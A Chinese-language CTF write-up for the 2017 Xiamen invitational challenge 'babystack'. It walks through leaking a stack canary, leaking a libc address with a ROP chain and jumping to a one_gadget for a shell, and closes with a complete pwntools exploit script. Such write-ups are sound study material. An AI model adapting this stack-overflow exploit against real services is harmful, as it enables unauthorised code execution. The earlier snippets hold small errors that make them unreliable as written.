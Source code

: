 ## 2017年 厦门邀请赛 - babystack

##### 查看保护机制：

![](checksec.png)

##### 定位漏洞

![](vul.png)

由上图可知，read函数可以读取0x100个字节，字符串s的位置为rbp-0x90h，所以这道题可以进行栈溢出。

#### 整体思路：

* 泄漏canary
* 修改返回地址，getshell

#### 1. 泄漏canary

这一部分我们需要知道3个知识点：

* read函数在读取限制长度的字符串内，也可以将`\n`读取进来
* puts函数遇到`0x00`时才会停止，`\n`不会停止
* canary为防止泄露，第一位已知为`\x00`

其实还需要知道 x64函数调用过程中栈的内容，这里不再详细描述。

##### 泄漏canary的思路就是：将存储在栈中的变量s填满，一直将canary最后一个字符`0x00`填上，在puts的时候，会一直输出到`0x00`结束，这样就可以得到顺序将canary输出。代码如下所示：

```
def getCanary():
    io.sendlineafter(">>","1")
    payload = cyclic(0x88)
    # 其实我们发送了0x89个字符，因为sendline会多发送一个回车，read也会将回车读入
    # s的内容是从低地址往高地址写，低位在低地址
    io.sendline(payload)

    io.sendlineafter(">>","2")
    io.recvuntil("\n")
    sleep(1)
    # 这是我们之前通过sendline输入的\n 读取的话也是从低地址向高地址读，接下来输出的就是canary了
    io.recvuntil("\n")
    
    canary = u64("0x00" + io.recv(7))
    log.debug("leak_canary -> 0x%x" % canary)
    return canary 
```

#### 2. 修改返回地址

这一部分的难点在于，将返回地址修改成什么，在这里我想填写one_gadget的方式。但是我们需要libc_base的地址。如何才能获得libc的地址呢。在这里学到了一个新方法。

思路是这样的：通过puts函数输出read函数got表中的值。这个过程通过构造rop来实现。然后减去read函数的偏移 就知道基地址是什么了。read函数的got放到puts函数的参数中，也就是rdi寄存器中 通过下面的指令寻找：

```
$ ROPgadget --binary babystack --only "pop|ret"
Gadgets information
============================================================
0x0000000000400a8c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a90 : pop r14 ; pop r15 ; ret
0x0000000000400a92 : pop r15 ; ret
0x0000000000400a8b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400778 : pop rbp ; ret
0x0000000000400a93 : pop rdi ; ret
0x0000000000400a91 : pop rsi ; pop r15 ; ret
0x0000000000400a8d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067e : ret
0x0000000000400288 : ret 0x6c1f
0x0000000000400811 : ret 0x8b48

Unique gadgets found: 13
```

获取read函数got表的值代码如下所示：

```
def getBase(canary):
    read_got = elf.got['read']
    puts_plt = elf.plt['puts']
    read_got = elf.plt['read']

    start = 0x400908
    pop_rdi_ret = 0x0000000000400a93

    io.sendlineadter(">>","1")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret ) + p64(read_got) + p64(puts_plt) + p64(start)
    io.sendline(payload)
    # 为了触发
    io.sendlineafter(">>","3")

    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)

    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

```
#### 注意：

`u64`将字符串转换成数字

![](u64.png)

但是必须是8个字符才行

![](u642.png)

所以我们需要在高位添加0x00

```
u64(t.recv(6).ljust(8, '\x00'))
```

这样就行。

ljust(8,'\x00')的效果如下所示：

```
>>> t.recv(6).ljust(8, '\x00')
'Hello,\x00\x00'
```
<mark>栈中 输入是由低向高 输出也是由低向高</mark>

#### 整个题的思路就是如下所示：

```
from pwn import *
import sys
from time import sleep
import pdb
context.log_level = 'debug'

io = process("./babystack")
elf = ELF("./babystack")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe_addr = 0x45216

def getCanary():
    io.sendlineafter(">> ", "1")
    payload = cyclic(0x88)
    #  debug()
    io.sendline(payload)
    io.sendlineafter(">> ", "2")
    sleep(1)
    io.recvuntil("\n")
    sleep(1)
    canary = u64("\x00" + io.recv(7))
    #  print hex(canary)
    log.debug("leaked canary -> 0x%x" % canary)
    return canary

def getBase(canary):
    read_got = elf.got["read"]
    read_plt = elf.plt["read"]
    puts_plt = elf.plt["puts"]
    #  start_plt = elf.symbols["start"]
    #  start_plt = 0x400720
    start_plt = 0x400908
    pop_rdi_ret = 0x0000000000400a93
    pop_rsi_r15_ret = 0x0000000000400a91
    io.sendlineafter(">> ", "1")
    #  log.info("------------------")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
    #  print len(payload)
    io.sendline(payload)
    io.sendlineafter(">> ", "3")
    #  debug()
    #  log.info("------------------")
    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)
    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

def getShell(canary, libcBase):
    io.sendlineafter(">> ", "1")
    exeAddr = libcBase + exe_addr
    payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
    io.sendline(payload)
    #  debug()
    io.sendlineafter(">> ", "3")

    io.interactive()
    io.close()

if __name__ == "__main__":
    io = process("./babystack")
    elf = ELF("./babystack")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    exe_addr = 0x45216
    canary = getCanary()
    libcBase = getBase(canary)
    canary = getCanary()
    getShell(canary, libcBase)

```




